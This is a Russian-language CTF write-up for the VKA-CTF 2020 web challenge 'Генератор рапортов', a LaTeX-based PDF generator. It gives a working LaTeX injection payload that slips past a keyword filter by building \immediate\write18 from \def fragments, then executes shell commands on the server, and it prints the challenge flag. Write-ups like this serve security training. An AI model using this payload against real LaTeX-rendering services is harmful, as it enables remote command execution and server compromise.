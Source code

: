 ## Генератор рапортов

| Событие | Название | Категория | Сложность |
|:--------|:---------|:----------|----------:|
| VKA-CTF`2020 | Генератор рапортов | Web | КМБ |

### Описание
> Автор: [ 𝕂𝕣𝕒𝕦𝕤𝕖 ]
>
> \- Товарищ майор, нам надоело писать рапорта вручную. Разрешите использовать наш новый [сервис](https://generate-pdf.vkactf.tk) для этого?
>
> \- А он безопасен?
>
> \- Конечно, можете сами проверить!

### Решение

![](imgs/1.PNG)

Перед отправкой текста на сервер он изменяется на стороне клиента (это можно заметить, используя `BurpSuite` или найдя файл `main.js`)

Синтаксис данного текста напоминает LaTeX, а он уязвим к произвольному чтению файлов, а также к RCE

Пробуя ввести `input` или `include` сервер вместо успешной генерации PDF файла отвечает `Мне показалось?`, а значит он фильтрует содержимое текста по ключевым словам (в том числе и `immediate` и `write18`, а также `loop` и `repeate`, что запрещает чтение многострочного файла)

Используем конструкцию `/def`, чтобы собрать наш payload "по кусочкам"

```latex
\def \imm {\string\imme}
\def \diate {diate}
\def \eighteen {\string18}
\def \wwrite {\string\write\eighteen}
\def \args {\string{id | base64 > test.tex\string}}
\def \inp {\string\in}
\def \iput {put}
\def \cmd {\string{test.tex\string}}

\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{\imm\diate\wwrite\args\inp\iput\cmd}
\closeout\outfile
```

Отправив данную нагрузку мы создадим файл `cmd.tex` с содержимым
```latex
\immediate\write18{id | base64 > test.tex}\input{test.tex}
```

Используем следующую нагрузку, чтобы прочитать этот файл и исполнить записанную в нём команду
```latex
\newread\file
\openin\file=cmd.tex
\read\file to\line
\text{\line}
\closein\file
```

Декодируем полученый ответ и получаем
```bash
uid=1001(pwner) gid=1001(pwner) groups=1001(pwner)
```

Используя эти методы находи флаг в корне приложения

**Флаг:**

>vka{u53_n0_5h311_35c4p3_1n5734d_0f_814ck1157}